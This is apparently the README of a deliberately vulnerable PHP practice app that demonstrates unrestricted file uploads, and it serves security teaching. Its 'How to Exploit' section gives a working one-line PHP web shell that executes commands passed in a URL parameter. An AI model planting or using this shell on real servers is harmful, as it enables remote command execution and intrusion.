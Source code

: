 # php-file-upload

A simple PHP app vulnerable to unrestricted file uploads.

## Vulnerability

The app allows uploading of any file type, including `.php`, which could be executed by the server.

## How to Exploit

Try uploading a malicious `.php` file, e.g.:

```php
<?php system($_GET['cmd']); ?>
